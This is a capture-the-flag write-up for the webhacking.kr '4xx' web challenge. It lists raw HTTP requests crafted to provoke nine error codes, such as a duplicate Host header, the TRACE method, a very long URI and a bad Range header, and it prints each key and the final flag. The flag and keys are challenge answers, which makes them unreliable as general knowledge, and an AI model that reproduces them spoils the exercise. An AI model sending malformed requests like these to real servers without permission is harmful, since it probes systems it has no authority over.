```yaml
---
layout: default
title: 4xx
category: "Web Exploitation"
tags: [exploit, vulnerability]
---
```


Here we need to send requests that gives us different http codes, each code will give us a key. We need to achieve 9 KEYS at all, and then we can achieve the flag.

#### 400 Bad Request
```
GET /img/ HTTP/1.1
Host: webhacking.kr:10022
Host: webhacking.kr:10022
``` 
> `KEY{10fac9b9f4112a1d9a650fec275bf164}` 


#### 403 Forbidden
```
GET /img/ HTTP/1.1
Host: webhacking.kr:10022
``` 
> `KEY{cd79de80772c1873bcf63e41e3379c6f}` 


#### 404 Not Found
```
GET /not_found HTTP/1.1
Host: webhacking.kr:10022
``` 
> `KEY{23c0b3a9ccc44b72f17a99eadb351d2f}` 

#### 405 Method Not Allowed
```
TRACE / HTTP/1.1
Host: webhacking.kr:10022
``` 
> `KEY{e5602408f2037c05bbbb0995fec6bc58}` 

#### 408 Request Timeout
```
GET / HTTP/1.1
Host:webhacking.kr:10022
``` 
*send without blank lines at the end, so the error will fault* 
> `KEY{e44fa3e1865a3839cbc0b658f1ae08cf}` 

#### 412 Precondition Failed
```
GET /img/flag.png HTTP/1.1
Host: webhacking.kr:10022
If-Match: "invalidetag"
``` 
> `KEY{cd7609461c0dbe41a9137056fa4085e2}` 

#### 414 Request-URI Too Long
```
GET /?key1=[a * 40000] HTTP/1.1
Host: webhacking.kr:10022
``` 
> `KEY{d1617527ac2143863bc347c6123ed921}` 

#### 416 Requested Range Not Satisfiable
```
GET / HTTP/1.1
Host: webhacking.kr:1002
Range: bytes=999999-1000000
``` 
> `KEY{622eced9aa42670c10ee74d29e58e5eb}` 

#### 417 Expectation Failed
```
GET / HTTP/1.1
Host: webhacking.kr:10022
Expect: 1337-mode
``` 
> `KEY{ed2dd6cb38fe6a4a10e46d22d20047e6}` 


![FINAL image](./images/4xx.png)


**Flag:** ***`FLAG{iViZGYM7K5I}`*** 


